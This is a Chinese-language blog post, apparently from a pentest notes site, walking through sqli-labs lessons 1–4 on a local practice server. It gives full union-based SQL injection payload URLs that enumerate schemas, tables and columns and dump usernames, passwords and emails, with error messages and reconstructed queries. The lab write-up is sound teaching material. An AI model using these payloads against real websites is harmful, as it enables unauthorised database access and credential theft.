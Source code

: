 ```yaml
---
layout: post
title:  "0x01 联合查询注入"
subtitle: "sqli-labs"
date:   2020-03-24 16：43
categories: [pentest]
---
```

<!-- more -->
mysql注入语句

联合查询

> 1. 单引号判断
>
> 2. 查询列数
>
>    ```sql
>      ?id=1' oder by num %23
>    ```
>
> 3. 查询返回列
>
>    ```mysql
>      ?id=-1' union select 1,2,3 %23
>    ```
>
> 4. 查询数据库
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
>    ```
>
> 5. 查询表名
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
>    ```
>
> 6. 查询列名
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
>    ```
>
> 7. 查询数据
>
>    ```mysql
>      ?id=-1' union select 1,username,password from users where id =2%23
>    ```

## less1

url

```u
http://127.0.0.1:9999/Less-1/?id=1'
```

报错信息

```mysql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1 
```

对此猜测数据库查询语句为**错误**

```mysql
select username,password from users where id = $id limit 0,1 
```

实际的源码为

```mysql
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

这里应该是字符型注入，报错信息中有效信息应该为

``` html
'1'' LIMIT 0,1
可以发现是'1'多了一个'导致报错的
```

那么我们输入payload后在数据库中执行的语句为

```mysql
SELECT * FROM users WHERE id='-1' union select 1,username,password from users where id =2#' LIMIT 0,1
```

## less2

url

```
http://127.0.0.1:9999/Less-2/?id=1%27
```

报错信息

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
```

其中有效的报错信息就是`' LIMIT 0,1`,那么可以判断这是数字型注入，判断数据库查询语句为

```msyql
select * from users where id = $id limit 0,1
```

输入payload后在数据库中执行的语句为

```mysql
select * from users where id = -1 union select 1,id,email_id from emails where id = 1 #limit 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-2/?id=1 order by 3 %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,3 %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema ="security"
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,id,email_id from emails%23
PS:查询其他表时要保持查询列数一致
```

## less3

url

```
http://127.0.0.1:9999/Less-3/?id=1%27
```

报错信息

```msyql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 
```

有用信息为`'1'') LIMIT 0,1`,多了个括号，猜测源码为

```mysql
select * from users where id = ('&id') LIMIT 0,1
```

输入payload后在数据库中执行的语句为

```mysql
select * from users where id = ('-1') union select 1,id,email_id from emails where id =1#') LIMIT 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-3/?id=-1%27) order by 3%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,3%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(schema_name) from information_schema.schemata%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,id,email_id from emails where id =1 %23
```

## less4

url

```msyql
http://127.0.0.1:9999/Less-4/?id=1'
```

单引号未报错，尝试双引号报错

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

有用信息为`"1"") LIMIT 0,1`，猜测数据库中查询语句为

```mysql
select * from users where id = ("$id") LIMIT 0,1
```

输入payload后数据库执行语句为

```mysql
select * from users where id =("-1") union select 1,id,email_id from emails where id =1 #") LIMIT 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,id,email_id from emails where id =1%23
```
